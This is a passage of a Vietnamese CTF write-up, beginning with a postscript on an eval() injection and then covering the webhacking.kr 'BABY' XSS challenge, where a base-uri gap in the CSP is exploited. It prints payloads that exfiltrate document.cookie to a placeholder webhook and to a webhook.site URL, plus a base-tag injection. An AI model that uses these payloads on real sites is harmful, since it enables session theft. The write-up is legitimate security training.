 P/s: Và nếu tiếp tục vọc vạch `eval()` không bỏ cuộc thì có lẽ em còn có thể sử dụng được thêm payload khác: ```1*1&&"alert`1`"``` Đưa toán từ `&&` (AND) vào payload để thực thi biểu thức ``` alert`1` ``` thay alert bằng `1*1&&"window.location.href=\"[Link webhook]?cookie=\"%2bdocument.cookie"` và thế là có thể thực hiện lấy được cookie admin là chỉ dựa vào hàm `eval()` 

---

# Webhacking/BABY

![](https://i.imgur.com/E4QLjpf.png)

Link to chall: http://webhacking.kr:10010/

## Phân tích

Trang web cho em inject vào DOM bất kỳ thứ gì nên em bắt đầu thử inject vài đoạn script xss cơ bản: `<script>alert(1)</script>`

![](https://i.imgur.com/fdAoZXm.png)

Đoạn `<script src=/script.js nonce=....></script>`
Dùng để tạo ra link đến page `/report.php` và mã js đó nằm trong file `./script.js` của server website:

![](https://i.imgur.com/3KNPobU.png)


Mặc dù inject vào DOM thành công như đoạn mã js đó lại không được thực thi do website đã sử dụng CSP: `Content-Security-Policy: script-src 'nonce-hBgeLOc+dhrtx8PVXiMjqUn4gTM=';`

Vậy nên chỉ những content được cho phép mới được thực thi.

Em sử dụng công cụ [CSP Evaluator](https://csp-evaluator.withgoogle.com/): để xem CSP này có bỏ xót gì không và đúng như mong đợi chúng ta có 2 hướng để khai thác: 

![](https://i.imgur.com/mBThMXv.png)

Đó là `object-src` và `base-uri` thử vài payload cơ bản với 2 loại này em xác định được chall này dính `base-uri`: `http://webhacking.kr:10010/?inject=%3CBase%20Href=//X55.is%3E`

![](https://i.imgur.com/gXTzRC6.png)

Xác định được hướng em bắt đầu đi exploit

## Khai thác

Bước đầu tiên là em cần host 1 file có tên trùng với tên mà file js mà website dùng để tạo ra link đến page `/report.php`. Vậy nên tên file phải là `script.js`. trong file em viết script để khi file được gọi nó sẽ chuyển hướng trang đến webhook mà em sở hữu: `location.href='https://webhook.site/19f12290-974f-4ea8-9e5b-84af2806beff?flag='+document.cookie;`

![](https://i.imgur.com/4TkKRLW.png)
